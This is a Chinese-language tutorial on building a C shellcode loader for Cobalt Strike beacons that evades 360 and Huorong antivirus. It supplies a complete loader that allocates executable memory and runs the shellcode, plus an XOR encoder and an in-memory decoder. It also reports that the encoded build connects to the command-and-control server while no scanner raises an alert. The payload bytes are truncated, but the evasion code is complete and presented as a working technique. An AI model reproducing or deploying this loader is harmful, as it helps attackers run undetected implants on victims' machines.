

# 0x00 简介
原理：c语言实现的loader  
测试的杀软：360全家桶、火绒  
CS版本：Cobalt Strike 4.2  
Metasploit版本：暂未测试

# 0x00 结论
能过360全家桶、火绒  

# 0x01 注意
360杀毒关闭：用户体验、程序错误、可疑文件  
360安全卫士关闭：用户体验、云安全、网址云安全  
火绒关闭：用户体验  

# 0x02 过程
Attacks->Packages->Payload Generator（选择之前创建的监听器，输出C格式）  
生成的代码如下  
```
/* length: 833 bytes */
unsigned char buf[] = "\xfc\xe8\x89\x00\x00\x00\x60...";
```
下载并安装VS2019，安装时勾选C++和windows这2类，创建windows控制台项目  
c语言实现loader，代码如下
```
#include <windows.h>
#include <stdio.h>

#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

// shellcode
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41...";

int main() {
    char* old = (char *)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
经测试，编译执行后能够成功上线

拷贝到windows server 2008下  
首次复制到虚拟机的时候，360直接给删除了  
再次复制时，没有删除，而且扫描后也没有提示病毒（怀疑它是判断为虚拟机，故行为改变）  
但使用火绒扫描后，提示病毒，如下图  


使用如下C代码，对shellcode进行异或加密（每个字节和数字1进行异或）
```
#include <stdio.h>

unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00...";

int a = 1;//xor key
int b = sizeof(buf);
unsigned char str[891] = { 0 };//shellcode size

int main() {
    printf("char array length=%d\n", b);
    printf("\n");

    for (int i = 0; i < b; i++) {
        str[i] = buf[i] ^ a;
    }

    for (int i = 0; i < b; i++) {
        printf("\\x%x", str[i]);
    }
    
    return 0;
}
```
拷贝上述输出的shellcode到下述代码的字符数组中，下述代码会在内存中进行异或解密并执行
```
#include <stdio.h>
#include <windows.h>

#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char buf[] = "\xfd\x49\x82\xe5\xf1\xe9\xc9\x1...";

int main() {
    for (int i = 0; i < sizeof(buf); i++) {
        _InterlockedXor8( (volatile char *)buf + i, 1 );//xor key
    }
    
    char* old = (char *)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
编译执行后，能成功连接到CS  
拷贝到windows server 2008 R2下  
360安全卫士、360杀毒、火绒均未提示  
扫描后也未提示，如下图  
  
执行后能成功连接到CS，如下图  

